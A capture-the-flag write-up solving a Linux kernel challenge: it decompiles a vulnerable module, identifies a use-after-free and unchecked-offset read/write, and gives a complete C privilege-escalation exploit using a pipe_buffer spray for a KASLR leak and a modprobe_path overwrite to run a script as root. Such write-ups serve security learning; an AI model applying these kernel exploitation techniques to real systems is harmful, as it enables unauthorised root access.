


## Challenge Description

```
The Brine Signet lies shattered beneath the waves. Astrael has vanished into the upper storms. Only the Salt Crown remains -- heavy with the weight of a kingdom that drowns in its own blood. When the Seal broke, the Realm bled. The Cinderbound guard what remains. And the sea... the sea remembers everything.
```

---

## Initial Recon

We receive the following files:

```
$ ls
Heavy_is_the_Krown.zip  initramfs.cpio.gz  run.sh  vmlinuz
```

First step is to extract the initramfs:

```
$ mkdir initramfs && cd initramfs
$ cp ../initramfs.cpio.gz .
$ gunzip initramfs.cpio.gz
$ cpio -idm < initramfs.cpio
$ ls
bin  dev  etc  flag.txt  home  init  initramfs.cpio  lib  proc  root  sbin  sys  tmp
```

To speed up the development cycle, I use a small script that compiles the exploit statically and repacks the initramfs:

```sh
gcc -o exploit -static $1
mv ./exploit ./initramfs
cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```

### init script

```sh
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t tmpfs -o noexec,nodev,nosuid tmpfs /tmp
echo 2 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
echo 1 > /proc/sys/kernel/panic_on_oops
mknod /dev/ttyS0 c 4 64
insmod /lib/modules/krown.ko
chmod -R 000 /sys/module/krown/sections/
sleep 1
major=$(grep krown /proc/devices | awk '{print $1}')
mknod /dev/krown c $major 0
chmod 666 /dev/krown
# ...
exec setsid /bin/cttyhack setuidgid 65534 /bin/sh
```

The kernel module is at `/lib/modules/krown.ko`. For debugging purposes, I changed `setuidgid 65534` to `setuidgid 0` to get a root shell, which allows reading `/proc/kallsyms` and module section addresses.

### run.sh

```sh
#!/bin/sh
qemu-system-x86_64 \
      -nodefaults \
      -display none \
      -serial stdio \
      -cpu qemu64,+smep,+smap \
      -kernel ./vmlinuz \
      -initrd ./initramfs.cpio.gz \
      -append 'console=ttyS0 quiet loglevel=3 oops=panic panic=1 init=/init root=/dev/ram0' \
      -nographic \
      -no-reboot \
      -smp 2 \
      -m 256M
```

SMEP, SMAP enabled, along with the other standard protections.

---

## Kernel Module Analysis

### krown_ioctl (dispatcher)

```c
long krown_ioctl(undefined8 param_1,uint option,undefined8 user_buf)

{
  long status;
  long copy_ret;
  undefined4 *alloc_ptr;
  long in_GS_OFFSET;
  undefined4 kbuff [72];
  long canary;

  canary = *(long *)(in_GS_OFFSET + 0x28);
  memset(kbuff,0,0x120);
  status = -0x19;
  if ((option & 0xff00) != 0x4b00) goto LAB_00100076;
  copy_ret = _copy_from_user(kbuff,user_buf,0x120);
  status = -0xe;
  if (copy_ret != 0) goto LAB_00100076;
  if (0x41204b01 < (int)option) {
    if ((int)option < 0x41204b04) {
      if (option == 0x41204b02) {
        status = krown_break(kbuff);
      }
      else {
        status = -0x19;
        if (option == 0x41204b03) {
          status = krown_bind(kbuff);
        }
      }
    }
    else if (option == 0x41204b04) {
      status = krown_unbind(kbuff);
    }
    else if (option == 0x41204b06) {
      status = krown_impress(kbuff);
    }
    else {
      status = -0x19;
      if (option == 0x41204b08) {
        status = krown_inscribe(kbuff);
      }
    }
    goto LAB_00100076;
  }
  if ((int)option < -0x3edfb4fb) {
    if (option == 0xc1204b00) {
      alloc_ptr = (undefined4 *)krown_alloc(1);
      if (alloc_ptr == (undefined4 *)0x0) {
LAB_001002f7:
        status = -0xc;
        goto LAB_00100076;
      }
      *(undefined8 *)(alloc_ptr + 0x32) = 0;
      *(undefined8 *)(alloc_ptr + 0x30) = 0;
      *(undefined8 *)(alloc_ptr + 0x2e) = 0;
      *(undefined8 *)(alloc_ptr + 0x2c) = 0;
      *(undefined8 *)(alloc_ptr + 0x2a) = 0;
      *(undefined8 *)(alloc_ptr + 0x28) = 0;
      *(undefined8 *)(alloc_ptr + 0x26) = 0;
      *(undefined8 *)(alloc_ptr + 0x24) = 0;
      *(undefined8 *)(alloc_ptr + 0x22) = 0;
      *(undefined8 *)(alloc_ptr + 0x20) = 0;
      *(undefined8 *)(alloc_ptr + 0x1e) = 0;
      *(undefined8 *)(alloc_ptr + 0x1c) = 0;
      *(undefined8 *)(alloc_ptr + 0x1a) = 0;
      *(undefined8 *)(alloc_ptr + 0x18) = 0;
      *(undefined8 *)(alloc_ptr + 0x16) = 0;
      *(undefined8 *)(alloc_ptr + 0x14) = 0;
      *(undefined8 *)(alloc_ptr + 4) = 0;
      *(undefined8 *)(alloc_ptr + 6) = 0;
      *(undefined8 *)(alloc_ptr + 8) = 0;
      *(undefined8 *)(alloc_ptr + 10) = 0;
      *(undefined8 *)(alloc_ptr + 0xc) = 0;
      *(undefined8 *)(alloc_ptr + 0xe) = 0;
      *(undefined8 *)(alloc_ptr + 0x10) = 0;
      alloc_ptr[0x12] = 0;
      kbuff[0] = *alloc_ptr;
    }
    else {
      status = -0x19;
      if (option != 0xc1204b01) goto LAB_00100076;
      alloc_ptr = (undefined4 *)krown_alloc(2);
      if (alloc_ptr == (undefined4 *)0x0) goto LAB_001002f7;
      memset(alloc_ptr + 10,0,0x1c8);
      *(undefined8 *)(alloc_ptr + 4) = 0;
      kbuff[0] = *alloc_ptr;
    }
  }
  else {
    if (option == 0xc1204b05) {
      status = krown_examine(kbuff);
    }
    else {
      status = -0x19;
      if (option != 0xc1204b07) goto LAB_00100076;
      status = krown_witness(kbuff);
    }
    if (status != 0) goto LAB_00100076;
  }
  copy_ret = _copy_to_user(user_buf,kbuff,0x120);
  status = -0xe;
  if (copy_ret == 0) {
    status = 0;
  }
LAB_00100076:
  if (*(long *)(in_GS_OFFSET + 0x28) != canary) {
    __stack_chk_fail();
  }
  return status;
}
```

Main dispatcher. Receives a command from userspace, copies 0x120 bytes from the user buffer into a kernel buffer (`kbuff`), routes to the appropriate function based on `option`, and copies the result back to userspace.

### krown_alloc

```c
uint * krown_alloc(uint param_1)

{
  uint *allocated_ptr;
  long *registry_entry_ptr;
  uint slot_id;
  long i;

  allocated_ptr = (uint *)kmalloc_trace(_DAT_001020d0,0xdc0,0x1f0);
  if (allocated_ptr != (uint *)0x0) {
    mutex_lock(registry_lock);
    registry_entry_ptr = &registry;
    i = 3;
    slot_id = 0;
    do {
      if (*(long *)(&major_num + i * 2) == 0) {
LAB_00100959:
        *registry_entry_ptr = (long)allocated_ptr;
        *allocated_ptr = slot_id;
        allocated_ptr[1] = param_1;
        *(undefined8 *)(allocated_ptr + 2) = global_cookie;
        mutex_unlock(registry_lock);
        return allocated_ptr;
      }
      if ((&krown_class)[i] == 0) {
        slot_id = slot_id | 1;
        registry_entry_ptr = registry_entry_ptr + 1;
        goto LAB_00100959;
      }
      if (*(long *)(&krown_device + i * 2) == 0) {
        registry_entry_ptr = registry_entry_ptr + 2;
        slot_id = (int)i - 1;
        goto LAB_00100959;
      }
      if ((&registry)[i] == 0) {
        slot_id = slot_id | 3;
        registry_entry_ptr = registry_entry_ptr + 3;
        goto LAB_00100959;
      }
      slot_id = slot_id + 4;
      registry_entry_ptr = registry_entry_ptr + 4;
      i = i + 4;
    } while (i != 0x43);
    mutex_unlock(registry_lock);
    kfree(allocated_ptr);
  }
  return (uint *)0x0;
}
```

Allocates a kernel object via `kmalloc` (fixed size 0x1F0 = 496 bytes, landing in kmalloc-512). Searches the global `registry` array (up to 0x40 slots) for an empty slot, registers the object, saves the `global_cookie` for authentication, and returns the pointer. If no slot is available, frees the memory and returns NULL.

#### Object Layout

Inspecting the allocated objects in GDB:

```
pwndbg> x/10gx 0xffff88800428f800
0xffff88800428f800: 0x0000000100000000  0x7642df5cb5ce2e25
0xffff88800428f810: 0x0000000000000000  0x0000000000000000
```

```
offset 0x00: [uint32] id
offset 0x04: [uint32] type (1=parent, 2=child)
offset 0x08: [uint64] global_cookie
offset 0x10: [uint64] ptr (used by witness/inscribe, NULL by default)
offset 0x48: [uint32] binding_count
offset 0x50: [uint64] bindings[0..15] (pointers to children)
```

The `global_cookie` is validated by every function before operating. It acts as a protection against forged/corrupted objects. The cookie is the same for all objects.

### krown_bind

```c
undefined8 krown_bind(uint *param_1)

{
  uint *dest_entry;
  uint index;
  uint *source_entry;

  index = *param_1;
  if (0x3f < (ulong)index) {
    return 0xffffffffffffffea;
  }
  mutex_lock(registry_lock);
  source_entry = (uint *)(&registry)[index];
  if (((source_entry != (uint *)0x0) && (*source_entry == index)) &&
     (*(long *)(source_entry + 2) == global_cookie)) {
    mutex_unlock(registry_lock);
    if (source_entry[1] != 1) {
      return 0xffffffffffffffea;
    }
    index = param_1[1];
    if (0x3f < (ulong)index) {
      return 0xffffffffffffffea;
    }
    mutex_lock(registry_lock);
    dest_entry = (uint *)(&registry)[index];
    if (((dest_entry != (uint *)0x0) && (*dest_entry == index)) &&
       (*(long *)(dest_entry + 2) == global_cookie)) {
      mutex_unlock(registry_lock);
      if (dest_entry[1] != 2) {
        return 0xffffffffffffffea;
      }
      index = source_entry[0x12];
      if (0x10 < (ulong)index) {
        return 0xffffffffffffffea;
      }
      if (index == 0x10) {
        return 0xffffffffffffffe4;
      }
      source_entry[0x12] = index + 1;
      *(uint **)(source_entry + (ulong)index * 2 + 0x14) = dest_entry;
      return 0;
    }
  }
  mutex_unlock(registry_lock);
  return 0xffffffffffffffea;
}
```

Links two objects. Validates that the first is type 1 (parent) and the second is type 2 (child). Adds the child's pointer to the parent's internal array (offset 0x14 onward), respecting a limit of 16 bindings.

### krown_unbind

```c
undefined8 krown_unbind(uint *param_1)

{
  uint index;
  ulong loop_idx;
  undefined8 result;
  uint *registry_entry;
  uint unbind_index;

  index = *param_1;
  result = 0xffffffffffffffea;
  if ((ulong)index < 0x40) {
    mutex_lock(registry_lock);
    registry_entry = (uint *)(&registry)[index];
    if (((registry_entry == (uint *)0x0) || (*registry_entry != index)) ||
       (*(long *)(registry_entry + 2) != global_cookie)) {
      mutex_unlock(registry_lock);
    }
    else {
      mutex_unlock(registry_lock);
      if ((registry_entry[1] == 1) && (index = registry_entry[0x12], index < 0x11)) {
        unbind_index = param_1[1];
        loop_idx = (ulong)unbind_index;
        if ((-1 < (int)unbind_index) && ((int)unbind_index < (int)index)) {
          index = index - 1;
          if ((int)unbind_index < (int)index) {
            do {
              *(undefined8 *)(registry_entry + loop_idx * 2 + 0x14) =
                   *(undefined8 *)(registry_entry + loop_idx * 2 + 0x16);
              loop_idx = loop_idx + 1;
              index = registry_entry[0x12] - 1;
            } while ((long)loop_idx < (long)(int)index);
          }
          registry_entry[0x12] = index;
          result = 0;
        }
      }
    }
  }
  return result;
}
```

Removes a binding from a type 1 object by index, shifts subsequent entries left to fill the gap, and decrements the binding counter.

### krown_break

```c
undefined8 krown_break(uint *param_1)

{
  undefined8 result;
  uint index;
  uint *registry_entry;

  index = *param_1;
  result = 0xffffffffffffffea;
  if ((ulong)index < 0x40) {
    mutex_lock(registry_lock);
    registry_entry = (uint *)(&registry)[index];
    if (((registry_entry == (uint *)0x0) || (*registry_entry != index)) ||
       (*(long *)(registry_entry + 2) != global_cookie)) {
      mutex_unlock(registry_lock);
    }
    else {
      mutex_unlock(registry_lock);
      if (*registry_entry < 0x40) {
        mutex_lock(registry_lock);
        if ((uint *)(&registry)[(int)*registry_entry] == registry_entry) {
          (&registry)[(int)*registry_entry] = 0;
          mutex_unlock(registry_lock);
          kfree(registry_entry);
        }
        else {
          mutex_unlock(registry_lock);
        }
      }
      result = 0;
    }
  }
  return result;
}
```

Destroys/frees an object. Validates the cookie, removes the object from the `registry`, and calls `kfree`.

### krown_examine (read via binding)

```c
undefined8 krown_examine(uint *param_1)

{
  undefined8 result;
  ulong copy_size;
  uint index;
  ulong offset;
  uint *registry_entry;

  index = *param_1;
  result = 0xffffffffffffffea;
  if ((ulong)index < 0x40) {
    mutex_lock(registry_lock);
    registry_entry = (uint *)(&registry)[index];
    if (((registry_entry == (uint *)0x0) || (*registry_entry != index)) ||
       (*(long *)(registry_entry + 2) != global_cookie)) {
      mutex_unlock(registry_lock);
    }
    else {
      mutex_unlock(registry_lock);
      if ((registry_entry[1] == 1) && (registry_entry[0x12] < 0x11)) {
        index = param_1[1];
        if ((((-1 < (int)index) &&
             (((int)index < (int)registry_entry[0x12] &&
              (*(long *)(registry_entry + (ulong)index * 2 + 0x14) != 0)))) &&
            (offset = *(ulong *)(param_1 + 2), offset < 0x1f0)) &&
           ((copy_size = *(ulong *)(param_1 + 4), copy_size < 0x101 && (copy_size + offset < 0x1f1))
           )) {
          memcpy(param_1 + 8,(void *)(*(long *)(registry_entry + (ulong)index * 2 + 0x14) + offset),
                 copy_size);
          result = 0;
        }
      }
    }
  }
  return result;
}
```

Copies data FROM a bound child object (type 2) TO the user buffer. Receives binding index, offset, and size. This is the "read" primitive. Since it reads the child's raw struct, it can leak internal metadata.

### krown_impress (write via binding)

```c
undefined8 krown_impress(uint *param_1)

{
  undefined8 result;
  ulong copy_size;
  uint index;
  ulong offset;
  uint *registry_entry;

  index = *param_1;
  result = 0xffffffffffffffea;
  if ((ulong)index < 0x40) {
    mutex_lock(registry_lock);
    registry_entry = (uint *)(&registry)[index];
    if (((registry_entry == (uint *)0x0) || (*registry_entry != index)) ||
       (*(long *)(registry_entry + 2) != global_cookie)) {
      mutex_unlock(registry_lock);
    }
    else {
      mutex_unlock(registry_lock);
      if ((registry_entry[1] == 1) && (registry_entry[0x12] < 0x11)) {
        index = param_1[1];
        if ((((-1 < (int)index) &&
             (((int)index < (int)registry_entry[0x12] &&
              (*(long *)(registry_entry + (ulong)index * 2 + 0x14) != 0)))) &&
            (offset = *(ulong *)(param_1 + 2), offset < 0x1f0)) &&
           ((copy_size = *(ulong *)(param_1 + 4), copy_size < 0x101 && (copy_size + offset < 0x1f1))
           )) {
          memcpy((void *)(*(long *)(registry_entry + (ulong)index * 2 + 0x14) + offset),param_1 + 8,
                 copy_size);
          result = 0;
        }
      }
    }
  }
  return result;
}
```

Copies data FROM the user buffer TO a bound child object. Same logic as examine but reversed. This is the "write" primitive. It overwrites the child's struct directly.

### krown_witness (read via internal pointer)

```c
undefined8 krown_witness(uint *param_1)

{
  size_t copy_size;
  undefined8 result;
  uint index;
  uint *registry_entry;

  index = *param_1;
  result = 0xffffffffffffffea;
  if ((ulong)index < 0x40) {
    mutex_lock(registry_lock);
    registry_entry = (uint *)(&registry)[index];
    if (((registry_entry == (uint *)0x0) || (*registry_entry != index)) ||
       (*(long *)(registry_entry + 2) != global_cookie)) {
      mutex_unlock(registry_lock);
    }
    else {
      mutex_unlock(registry_lock);
      if ((registry_entry[1] == 1) && (*(long *)(registry_entry + 4) != 0)) {
        copy_size = 0x100;
        if (*(ulong *)(param_1 + 4) < 0x100) {
          copy_size = *(ulong *)(param_1 + 4);
        }
        memcpy(param_1 + 8,(void *)(*(long *)(registry_entry + 4) + *(long *)(param_1 + 2)),
               copy_size);
        result = 0;
      }
    }
  }
  return result;
}
```

Reads data via the internal pointer at offset +0x10 of a type 1 object. No bounds validation on the offset (OOB read).

### krown_inscribe (write via internal pointer)

```c
undefined8 krown_inscribe(uint *param_1)

{
  size_t copy_size;
  undefined8 result;
  uint index;
  uint *registry_entry;

  index = *param_1;
  result = 0xffffffffffffffea;
  if ((ulong)index < 0x40) {
    mutex_lock(registry_lock);
    registry_entry = (uint *)(&registry)[index];
    if (((registry_entry == (uint *)0x0) || (*registry_entry != index)) ||
       (*(long *)(registry_entry + 2) != global_cookie)) {
      mutex_unlock(registry_lock);
    }
    else {
      mutex_unlock(registry_lock);
      if ((registry_entry[1] == 1) && (*(long *)(registry_entry + 4) != 0)) {
        copy_size = 0x100;
        if (*(ulong *)(param_1 + 4) < 0x100) {
          copy_size = *(ulong *)(param_1 + 4);
        }
        memcpy((void *)(*(long *)(registry_entry + 4) + *(long *)(param_1 + 2)),param_1 + 8,
               copy_size);
        result = 0;
      }
    }
  }
  return result;
}
```

Writes data via the internal pointer at offset +0x10 of a type 1 object. No bounds validation on the offset (OOB write).

---

## Vulnerabilities

### Use-After-Free (krown_break)

```c
(&registry)[(int)*registry_entry] = 0;
mutex_unlock(registry_lock);
kfree(registry_entry);
```

`krown_break` zeroes the registry slot and calls `kfree`, but does not NULL out the pointer stored in the parent's binding array. If we allocate objects A (type 1) and B (type 2), bind B to A, then break B, and B is freed and removed from the registry, but A's binding array still holds a dangling pointer to B. Subsequent calls to `krown_examine` or `krown_impress` via A will operate on the freed memory.

### OOB Read/Write (krown_witness / krown_inscribe)

Both `krown_witness` and `krown_inscribe` only check whether the internal pointer (at struct offset +0x10) is non-NULL:

```c
if ((registry_entry[1] == 1) && (*(long *)(registry_entry + 4) != 0))
```

The offset passed by the user is not validated, allowing arbitrary read/write relative to whatever address the pointer holds. However, by default this pointer is NULL, so the OOB cannot be used directly without first placing a valid address there.

---

## Exploitation

### Stage 1: Global Cookie Leak

The global cookie must be leaked first, since all functions validate it. Since `krown_examine` reads the raw child struct, we can simply read the cookie from offset 0x08 of any child:

```c
int parent_id = krown_alloc(1);
int child_id = krown_alloc(2);
krown_bind(parent_id, child_id);

uint64_t leak[15];
krown_examine(parent_id, 0, 0, sizeof(leak));
memcpy(leak, &buf[8], sizeof(leak));

uint64_t global_cookie = leak[1];
printf("[*] Global Cookie: 0x%lx\n", global_cookie);
```



### Stage 2: KASLR Leak via pipe_buffer Spray

With the cookie in hand, the next step is a KASLR leak. The UAF lets us overlap the freed object with a kernel struct that holds pointers, then read them back through the dangling binding.

The krown object is 496 bytes, so it lives in kmalloc-512. I needed a reclaim object in that same cache carrying a kernel pointer, and `pipe_buffer` fits. 
Each entry is 40 bytes and the whole ring is a single allocation. The default ring holds 16 entries (640 bytes, kmalloc-1024), but `fcntl(F_SETPIPE_SZ, 0x8000)` shrinks it to 8 pages, so 8 × 40 = 320 bytes and rounds up to kmalloc-512. The resize goes through `pipe_resize_ring`, and it's that reallocation that lands on the freed krown slot.

The `write()` afterwards matters. The ring comes from `kcalloc`, so it's zeroed and `pipe_buffer[0].ops` starts NULL. Writing one byte sets `ops = &anon_pipe_buf_ops`, and that pointer is the leak. Skip the write and `leak2[2]` comes back empty.

One caveat on accounting: the krown object uses `GFP_KERNEL`, while the pipe ring uses `GFP_KERNEL_ACCOUNT`. On 5.14+ with `CONFIG_MEMCG_KMEM`, accounted allocations go to the separate `kmalloc-cg-512` cache, so the direct reclaim wouldn't hit and you'd need a cross-cache instead. This kernel doesn't split the caches, so both share kmalloc-512 and the spray works as-is.

So: alloc a second parent/child, bind, free the child, spray resized pipes, then read the overlap with `krown_examine`. `leak2[2]` is `pipe_buffer[0].ops` (`&anon_pipe_buf_ops`), which gives KASLR.

```c
int parent2_id = krown_alloc(1);
int child2_id = krown_alloc(2);
krown_bind(parent2_id, child2_id);
krown_break(child2_id);

int pipe_fd[100][2];
for (int i = 0; i < 100; i++) {
    pipe(pipe_fd[i]);
    fcntl(pipe_fd[i][1], 1031, 0x8000);
    write(pipe_fd[i][1], "A", 1);
}

uint64_t leak2[10];
krown_examine(parent2_id, 0, 0, sizeof(leak2));
memcpy(leak2, &buf[8], sizeof(leak2));

uint64_t kaslr_leak = leak2[2];
uint64_t modprobe_path = kaslr_leak + 0x6293a8;
```

### Stage 3: modprobe_path Overwrite

With both the global cookie and KASLR leak, we have the primitives needed for arbitrary write.

`krown_witness` and `krown_inscribe` read/write relative to the internal pointer at offset +0x10 of the struct. By default this pointer is NULL, but we can set it to any address using `krown_impress` to corrupt the child's struct, forging its type from 2 to 1 and placing a target address in the pointer field.

The `pipe_buffer.ops` field is a function-pointer table, so hijacking it would hand us RIP control and a ROP chain. I went data-only instead: the kernel appears to have CFI enabled, so a hijacked `ops` pointing at a stack pivot gets rejected at the call site before the chain runs. Overwriting `modprobe_path` sidesteps this, it corrupts data, not control flow, so there is no indirect call to check.

`modprobe_path` is a global kernel variable that holds the path of the binary executed (as root) when the kernel encounters a file with an unknown magic number. By default it points to `/sbin/modprobe`. If we overwrite it to point to a script we control (e.g. `/home/hehe.sh` containing `chmod 777 /flag.txt`), then trigger execution of a file with an invalid magic number, the kernel will execute our script as root.

The steps:

Using the original parent, we forge the child's struct via `krown_impress`: change its type from 2 to 1, set the global cookie, and place the address of `modprobe_path` in the pointer field. Then we use `krown_inscribe` on the child (now recognized as type 1 with a valid pointer) to write our custom path:

```c
uint64_t payload1[3] = {0x0000000100000001, global_cookie, modprobe_path};
krown_impress(parent_id, 0, 0, sizeof(payload1), payload1);

char sh_file[] = "/home/hehe.sh";
krown_inscribe(child_id, 0, sizeof(sh_file), sh_file);
```

We use the original child (not the one sacrificed for the pipe_buffer spray) because corrupting the pipe_buffer's memory would cause a kernel panic when the pipes are cleaned up.

---

## Full Exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>

enum krown_ioctl_option {
    KROWN_BREAK = 0x41204b02,
    KROWN_BIND = 0x41204b03,
    KROWN_UNBIND = 0x41204b04,
    KROWN_IMPRESS = 0x41204b06,
    KROWN_INSCRIBE = 0x41204b08,
    KROWN_ALLOC_TYPE1 = 0xc1204b00,
    KROWN_ALLOC_TYPE2 = 0xc1204b01,
    KROWN_EXAMINE = 0xc1204b05,
    KROWN_WITNESS = 0xc1204b07
};

int fd;

void open_dev() {
    fd = open("/dev/krown", O_RDONLY);
    if (fd < 0) {
        perror("[*] Failed to open device");
        exit(1);
    } else {
        puts("[*] Device /dev/krown opened");
    }
}

uint32_t buf[0x120 / 4];

int krown_alloc(int type) {
    memset(buf, 0, 0x120);
    if (type == 1) ioctl(fd, KROWN_ALLOC_TYPE1, buf);
    if (type == 2) ioctl(fd, KROWN_ALLOC_TYPE2, buf);
    return buf[0];
}

void krown_bind(uint32_t id_type_1, uint32_t id_type_2) {
    memset(buf, 0, 0x120);
    buf[0] = id_type_1;
    buf[1] = id_type_2;
    ioctl(fd, KROWN_BIND, buf);
}

void krown_unbind(uint32_t id_type_1, uint32_t idx) {
    memset(buf, 0, 0x120);
    buf[0] = id_type_1;
    buf[1] = idx;
    ioctl(fd, KROWN_UNBIND, buf);
}

void krown_break(uint32_t id) {
    memset(buf, 0, 0x120);
    buf[0] = id;
    ioctl(fd, KROWN_BREAK, buf);
}

void krown_examine(uint32_t parent, uint32_t idx, uint64_t off, uint64_t size) {
    memset(buf, 0, 0x120);
    buf[0] = parent;
    buf[1] = idx;
    *(uint64_t *)&buf[2] = off;
    *(uint64_t *)&buf[4] = size;
    ioctl(fd, KROWN_EXAMINE, buf);
}

void krown_impress(uint32_t parent, uint32_t idx, uint64_t off, uint64_t size, void *data) {
    memset(buf, 0, 0x120);
    buf[0] = parent;
    buf[1] = idx;
    *(uint64_t *)&buf[2] = off;
    *(uint64_t *)&buf[4] = size;
    memcpy(&buf[8], data, size);
    ioctl(fd, KROWN_IMPRESS, buf);
}

void krown_witness(uint32_t parent, int64_t off, uint64_t size) {
    memset(buf, 0, 0x120);
    buf[0] = parent;
    *(int64_t *)&buf[2] = off;
    *(uint64_t *)&buf[4] = size;
    ioctl(fd, KROWN_WITNESS, buf);
}

void krown_inscribe(uint32_t parent, int64_t off, uint64_t size, void *data) {
    memset(buf, 0, 0x120);
    buf[0] = parent;
    *(int64_t *)&buf[2] = off;
    *(uint64_t *)&buf[4] = size;
    memcpy(&buf[8], data, size);
    ioctl(fd, KROWN_INSCRIBE, buf);
}

void create_files() {
    puts("[*] Creating files...");
    FILE *f = fopen("/home/hehe.sh", "w");
    fprintf(f, "#!/bin/sh\nchmod 777 /flag.txt\n");
    fclose(f);
    system("chmod 777 /home/hehe.sh");

    // File with invalid magic number to trigger modprobe_path
    f = fopen("/home/dummy", "w");
    fwrite("\xff\xff\xff\xff", 1, 4, f);
    fclose(f);
    system("chmod +x /home/dummy");

    puts("[*] Triggering invalid magic number");
    system("/home/dummy");
}

int main() {
    open_dev();

    int parent_id = krown_alloc(1);
    int child_id = krown_alloc(2);

    puts("[*] Parent and Child created");
    puts("[*] Binding...");

    krown_bind(parent_id, child_id);

    puts("[*] Leaking Global Cookie...");

    uint64_t leak[15];
    krown_examine(parent_id, 0, 0, sizeof(leak));
    memcpy(leak, &buf[8], sizeof(leak));

    uint64_t global_cookie = leak[1];
    printf("[*] Global Cookie: 0x%lx\n", global_cookie);

    int parent2_id = krown_alloc(1);
    int child2_id = krown_alloc(2);

    puts("[*] Parent2 and Child2 created");
    puts("[*] Triggering UAF");

    krown_bind(parent2_id, child2_id);
    krown_break(child2_id);
    puts("[*] Child2 deleted");

    puts("[*] Spraying pipe_buffer...");
    int pipe_fd[100][2];

    for (int i = 0; i < 100; i++) {
        pipe(pipe_fd[i]);
        fcntl(pipe_fd[i][1], 1031, 0x8000);
        write(pipe_fd[i][1], "A", 1);
    }

    uint64_t leak2[10];
    krown_examine(parent2_id, 0, 0, sizeof(leak2));
    memcpy(leak2, &buf[8], sizeof(leak2));

    uint64_t kaslr_leak = leak2[2];
    uint64_t modprobe_path = kaslr_leak + 0x6293a8;
    printf("[*] KASLR Leak: 0x%lx\n", kaslr_leak);
    printf("[*] modprobe_path: 0x%lx\n", modprobe_path);

    puts("[*] Forging fake struct...");
    uint64_t payload1[3] = {0x0000000100000001, global_cookie, modprobe_path};
    krown_impress(parent_id, 0, 0, sizeof(payload1), payload1);

    puts("[*] Corrupting modprobe_path");
    char sh_file[] = "/home/hehe.sh";
    krown_inscribe(child_id, 0, sizeof(sh_file), sh_file);

    create_files();
    puts("[*] Reading Flag:");
    system("cat /flag.txt");
}
```

---

## Flag



```
HTB{h34vy_15_th3_kr0wn_7h4t_w34r5_th3_w31gh7_0f_4uth0r17y}
```


If you notice any inaccuracies or mistakes in this writeup, please feel free to contact me. I’d be happy to clarify or correct any information.

